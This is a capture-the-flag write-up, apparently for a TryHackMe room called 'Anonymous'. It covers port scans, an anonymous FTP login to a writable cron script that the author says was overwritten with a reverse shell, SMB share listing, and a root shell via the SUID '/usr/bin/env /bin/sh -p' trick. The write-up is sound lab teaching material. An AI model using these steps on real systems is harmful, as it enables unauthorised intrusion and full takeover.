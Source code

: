 # Info

## IP = ?

## Creds

# Ports

## PortScanning

```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```

## 21

### Scanning

```
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:$IP
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
```
### Anonymous Login

- get 3 files, most important: _clean.sh_

```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

### I have permission to write this file, and because the _removed_files.log_ is increasing, I think that the _clean.sh_ file is running like a cron job. Uploading a rev shell in bash, I got a shell

## 22

### Scanning
```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
```

## 139

### Scanning
```
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

## 445

### Scanning
```
Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-02-01T12:37:37
|_  start_date: N/A
|_clock-skew: mean: 3s, deviation: 1s, median: 2s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2024-02-01T12:37:37+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### `smbclient`

```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Anonymous]
└─$ smbclient -L $IP
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
                                                                             
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/Anonymous]
└─$ smbclient \\\\$IP\\pics       
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \>
```

# PrivEsc

## `cat user.txt`

- flag{XXXX}

## SUID bin

```
/usr/bin/env
```

## Got root

- https://gtfobins.github.io/gtfobins/env/#suid
```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
# cd /root
# cat root.txt
flag{XXXX}
```

